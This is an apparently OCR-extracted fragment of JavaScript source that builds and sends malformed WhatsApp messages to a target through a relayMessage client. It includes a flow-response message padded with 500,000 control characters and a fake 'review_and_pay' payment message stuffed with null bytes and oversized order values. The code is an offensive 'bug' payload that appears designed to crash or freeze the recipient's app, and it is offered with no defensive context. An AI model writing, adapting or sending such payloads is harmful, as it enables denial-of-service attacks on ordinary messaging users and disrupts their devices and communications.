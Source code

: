     await zyn.relayMessage(target, sessionStructure.message, { participant: { jid: target }, messageId: sessionStructure.key.id });
}
		
const wanted = {
            key: {
                remoteJid: 'p',
                fromMe: false,
                participant: '0@s.whatsapp.net'
            },
            message: {
                "interactiveResponseMessage": {
                    "body": {
                        "text": "Sent",
                        "format": "DEFAULT"
                    },
                    "nativeFlowResponseMessage": {
                        "name": "galaxy_message",
                        "paramsJson": `{\"screen_2_OptIn_0\":true,\"screen_2_OptIn_1\":true,\"screen_1_Dropdown_0\":\"ZetExecute\",\"screen_1_DatePicker_1\":\"1028995200000\",\"screen_1_TextInput_2\":\"czazxvoid@sky.id\",\"screen_1_TextInput_3\":\"94643116\",\"screen_0_TextInput_0\":\"radio - buttons${"\u0003".repeat(500000)}\",\"screen_0_TextInput_1\":\"Anjay\",\"screen_0_Dropdown_2\":\"001-Grimgar\",\"screen_0_RadioButtonsGroup_3\":\"0_true\",\"flow_token\":\"AQAAAAACS5FpgQ_cAAAAAE0QI3s.\"}`,
                        "version": 3
                    }
                }
            }
        }	
		
		
		async function PayMent(LockJids) {
			var messageContent = generateWAMessageFromContent(LockJids, proto.Message.fromObject({
				'viewOnceMessage': {
					'message': {
						'interactiveMessage': {
							'header': {
								"hasMediaAttachment": true,
								'sequenceNumber': '0',
								"jpegThumbnail": ""
							},
							'nativeFlowMessage': {
								"buttons": [{
									"name": "review_and_pay",
									"buttonParamsJson": `{\"currency\":\"IDR\",\"total_amount\":{\"value\":49981399788,\"offset\":100},\"reference_id\":\"4OON4PX3FFJ\",\"type\":\"physical-goods\",\"order\":{\"status\":\"payment_requested\",\"subtotal\":{\"value\":49069994400,\"offset\":100},\"tax\":{\"value\":490699944,\"offset\":100},\"discount\":{\"value\":485792999999,\"offset\":100},\"shipping\":{\"value\":48999999900,\"offset\":100},\"order_type\":\"ORDER\",\"items\":[{\"retailer_id\":\"7842674605763435\",\"product_id\":\"7842674605763435\",\"name\":\k${bugpdf},\"amount\":{\"value\":9999900,\"offset\":100},\"quantity\":7},{\"retailer_id\":\"custom-item-f22115f9-478a-487e-92c1-8e7b4bf16de8\",\"name\":\"\",\"amount\":{\"value\":999999900,\"offset\":100},\"quantity\":49}]},\"native_payment_methods\":[]}`
								}],
								"messageParamsJson": '\0'.repeat(10000),
							}
						}
					}
				}
			}), {});
			zyn.relayMessage(LockJids, messageContent.message, {
				'messageId': messageContent.key.id
			});
		}
